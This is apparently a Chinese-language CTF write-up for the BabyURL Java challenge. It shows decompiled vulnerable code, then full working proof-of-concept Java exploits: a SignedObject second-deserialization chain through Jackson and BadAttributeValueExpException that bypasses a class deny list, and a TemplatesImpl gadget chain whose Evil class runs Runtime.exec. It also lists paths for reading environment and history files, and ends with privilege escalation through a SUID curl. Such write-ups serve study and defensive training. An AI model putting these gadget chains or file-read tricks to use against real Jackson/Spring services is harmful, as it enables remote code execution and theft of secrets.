





---
title: "巅峰极客2023 BabyURL"
date: 2025-12-02T14:57:47+08:00
summary: " "
url: "/posts/Java题目之巅峰极客2023-BabyURL/"
categories:
  - "javasec"
tags:
  - "javasec"
draft: false
---

起一个docker镜像

```java
docker run -it -d -p 12345:8080 -e "FLAG=flag{test_flag}" lxxxin/dfjk2023_babyurl
```

访问12345端口就可以

附件在：https://www.yuque.com/attachments/yuque/0/2023/zip/28160573/1689934091638-4a2e9513-6170-4d11-819e-1ff4c4a80322.zip

反编译后放IDEA里看一下

# 依赖分析


有jackson依赖，版本是2.13.3，可以打jackson原生反序列化，并且这里导入了Spring AOP，可以拿来做JACKSON链的绕过

在pom.xml中看到jdk是1.8，那就配置一下8u64的SDK吧

# 源码分析

先看一下IndexController控制器代码

```java
package com.yancao.ctf.controller;

import com.yancao.ctf.bean.URLHelper;
import com.yancao.ctf.util.MyObjectInputStream;
import java.io.ByteArrayInputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.nio.charset.StandardCharsets;
import java.util.Base64;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
/* loaded from: ctf-0.0.1-SNAPSHOT.jar:BOOT-INF/classes/com/yancao/ctf/controller/IndexController.class */
public class IndexController {
    @RequestMapping({"/"})
    @ResponseBody
    public String index() {
        return "Hello World";
    }

    @GetMapping({"/hack"})
    @ResponseBody
    public String hack(@RequestParam String payload) {
        byte[] bytes = Base64.getDecoder().decode(payload.getBytes(StandardCharsets.UTF_8));
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        try {
            ObjectInputStream ois = new MyObjectInputStream(byteArrayInputStream);
            URLHelper o = (URLHelper) ois.readObject();
            System.out.println(o);
            System.out.println(o.url);
            return "ok!";
        } catch (Exception e) {
            e.printStackTrace();
            return e.toString();
        }
    }

    @RequestMapping({"/file"})
    @ResponseBody
    public String file() throws IOException {
        File file = new File("/tmp/file");
        if (!file.exists()) {
            file.createNewFile();
        }
        FileInputStream fis = new FileInputStream(file);
        byte[] bytes = new byte[1024];
        fis.read(bytes);
        return new String(bytes);
    }
}

```

`/hack`路由下会接收一个payload参数，并对该参数进行base64解码以及反序列化操作

不过这里是用的自定义的MyObjectInputStream，里面重写了resolveClass方法

```java
package com.yancao.ctf.util;

import java.io.IOException;
import java.io.InputStream;
import java.io.InvalidClassException;
import java.io.ObjectInputStream;
import java.io.ObjectStreamClass;

/* loaded from: ctf-0.0.1-SNAPSHOT.jar:BOOT-INF/classes/com/yancao/ctf/util/MyObjectInputStream.class */
public class MyObjectInputStream extends ObjectInputStream {
    public MyObjectInputStream(InputStream in) throws IOException {
        super(in);
    }

    @Override // java.io.ObjectInputStream
    protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
        String className = desc.getName();
        String[] denyClasses = {"java.net.InetAddress", "org.apache.commons.collections.Transformer", "org.apache.commons.collections.functors", "com.yancao.ctf.bean.URLVisiter", "com.yancao.ctf.bean.URLHelper"};
        for (String denyClass : denyClasses) {
            if (className.startsWith(denyClass)) {
                throw new InvalidClassException("Unauthorized deserialization attempt", className);
            }
        }
        return super.resolveClass(desc);
    }
}

```

`URLHelper o = (URLHelper) ois.readObject();`并且这里使用的类是URLHelper

```java
package com.yancao.ctf.bean;

import java.io.File;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.Serializable;

/* loaded from: ctf-0.0.1-SNAPSHOT.jar:BOOT-INF/classes/com/yancao/ctf/bean/URLHelper.class */
public class URLHelper implements Serializable {
    public String url;
    public URLVisiter visiter = null;
    private static final long serialVersionUID = 1;

    public URLHelper(String url) {
        this.url = url;
    }

    private void readObject(ObjectInputStream in) throws Exception {
        in.defaultReadObject();
        if (this.visiter != null) {
            String result = this.visiter.visitUrl(this.url);
            File file = new File("/tmp/file");
            if (!file.exists()) {
                file.createNewFile();
            }
            FileOutputStream fos = new FileOutputStream(file);
            fos.write(result.getBytes());
            fos.close();
        }
    }
}
```

如果我们的payload中存在URLVisiter类型的对象就会调用visitUrl函数将返回值写入file文件中

```java
    public String visitUrl(String myurl) {
        if (myurl.startsWith("file")) {
            return "file protocol is not allowed";
        }
        try {
            URL url = new URL(myurl);
            BufferedReader in = new BufferedReader(new InputStreamReader(url.openStream()));
            StringBuilder sb = new StringBuilder();
            while (true) {
                String inputLine = in.readLine();
                if (inputLine != null) {
                    sb.append(inputLine);
                } else {
                    in.close();
                    return sb.toString();
                }
            }
        } catch (Exception e) {
            return e.toString();
        }
    }
```

一个文件读取的操作，但是限制了开头不能是file，我们可以用空格或者大写去绕过

因为URLVisiter和URLHelper都在黑名单中，我们可以用二次反序列化进行绕过

# SignedObject二次反序列化

```java
package com.yancao.ctf;

import com.fasterxml.jackson.databind.node.POJONode;
import com.yancao.ctf.bean.URLHelper;
import com.yancao.ctf.bean.URLVisiter;
import javassist.*;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.Base64;

public class POC {
    public static void main(String[] args) throws Exception {
        overrideJackson();
        URLHelper urlHelper = new URLHelper(" file:///etc/passwd");
        URLVisiter urlVisiter = new URLVisiter();
        setFieldValue(urlHelper,"visiter",urlVisiter);
        //二次反序列化
        SignedObject signedObject = second_serialize(urlHelper);

        //触发SignedObject#getObject方法
        POJONode pojoNode = new POJONode(signedObject);

        //触发toString()方法
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        setFieldValue(badAttributeValueExpException,"val",pojoNode);

        //序列化和反序列化
//        byte[] bytes = serialize(badAttributeValueExpException2);
//        unserialize(bytes);
        base64_serialize(badAttributeValueExpException);

    }
    public static void overrideJackson() throws NotFoundException, CannotCompileException, IOException {
        CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();
    }

    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //二次序列化函数
    public static SignedObject second_serialize(Object o) throws Exception {
        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject((Serializable) o, kp.getPrivate(), Signature.getInstance("DSA"));
        return signedObject;
    }
    //将序列化字符串转为base64
    public static void base64_serialize(Object object) throws Exception{
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(object);
        oos.close();

        String base64String = Base64.getEncoder().encodeToString(baos.toByteArray());
        System.out.println(base64String);
    }
    //定义序列化操作
    public static byte[] serialize(Object object) throws Exception{
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(object);
        oos.close();
        return baos.toByteArray();
    }
    //定义反序列化操作
    public static void unserialize(byte[] bytes) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bytes));
        ois.readObject();
    }
}
```

将序列化后的base64在/hack路由中打入进行反序列化，并访问/file路由获取结果



可以打，那就得找flag的路径了

尝试读一下环境变量以及启动命令这些

```java
file:///proc/self/environ
file:///proc/self/cmdline
file:///root/.bash_history
```

最后发现flag就在根目录



需要提权，比较麻烦，我们讲讲非预期里面的吧

# TemplatesImpl链

这里的话是直接用的TemplatesImpl链并进行二次反序列化直接抛弃原有的类和方法

先写一个恶意类Evil

```java
package com.yancao.ctf;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Evil extends AbstractTranslet {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers)
            throws TransletException {}

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
            throws TransletException {}
}

```

然后我们的POC

```java
package com.yancao.ctf;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.springframework.aop.framework.AdvisedSupport;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.Base64;

public class POC {
    public static void main(String[] args) throws Exception {
        overrideJackson();
        ClassPool pool = ClassPool.getDefault();
        CtClass evilClass = pool.get(com.yancao.ctf.Evil.class.getName());
        byte[] code = evilClass.toBytecode();
        TemplatesImpl templates = (TemplatesImpl)getTemplates(code);
        Object proxy = getPOJONodeStableProxy(templates);


        POJONode pojoNode = new POJONode(proxy);
        //触发toString()方法
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        setFieldValue(badAttributeValueExpException,"val",pojoNode);

        //二次反序列化
        SignedObject signedObject = second_serialize(badAttributeValueExpException);

        //触发SignedObject#getObject方法
        POJONode pojoNode2 = new POJONode(signedObject);
        //触发toString()方法
        BadAttributeValueExpException badAttributeValueExpException2 = new BadAttributeValueExpException(null);
        setFieldValue(badAttributeValueExpException2,"val",pojoNode2);

        //序列化和反序列化
        byte[] bytes = serialize(badAttributeValueExpException2);
        unserialize(bytes);
        //base64_serialize(badAttributeValueExpException2);

    }
    public static Object getTemplates(byte[] bytes)throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        byte[][] codes = {bytes};
        setFieldValue(templates,"_bytecodes",codes);
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    //二次序列化函数
    public static SignedObject second_serialize(Object o) throws Exception {
        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject((Serializable) o, kp.getPrivate(), Signature.getInstance("DSA"));
        return signedObject;
    }
    //获取进行了动态代理的templatesImpl，保证触发getOutputProperties
    public static Object getPOJONodeStableProxy(Object templatesImpl) throws Exception{
        Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
        cons.setAccessible(true);
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templatesImpl);
        InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);
        Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);
        return proxyObj;
    }
    public static void overrideJackson() throws NotFoundException, CannotCompileException, IOException {
        CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }

    //将序列化字符串转为base64
    public static void base64_serialize(Object object) throws Exception{
        ByteArrayOutputStream data = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(data);
        oos.writeObject(object);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
    }
    //定义序列化操作
    public static byte[] serialize(Object object) throws Exception{
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(object);
        oos.close();
        return baos.toByteArray();
    }
    //定义反序列化操作
    public static void unserialize(byte[] bytes) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bytes));
        ois.readObject();
    }
}
```



那直接反弹shell，刚好可以出网



查找SUID位文件

```java
ctf@f3a1a6ea8ee9:/$ find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
/bin/umount
/bin/ping
/bin/mount
/bin/ping6
/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/curl
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

curl可以提权

https://gtfobins.github.io/gtfobins/curl/

```java
curl file:///flag -o /1.txt
cat 1.txt
```

这样就可以拿到flag了


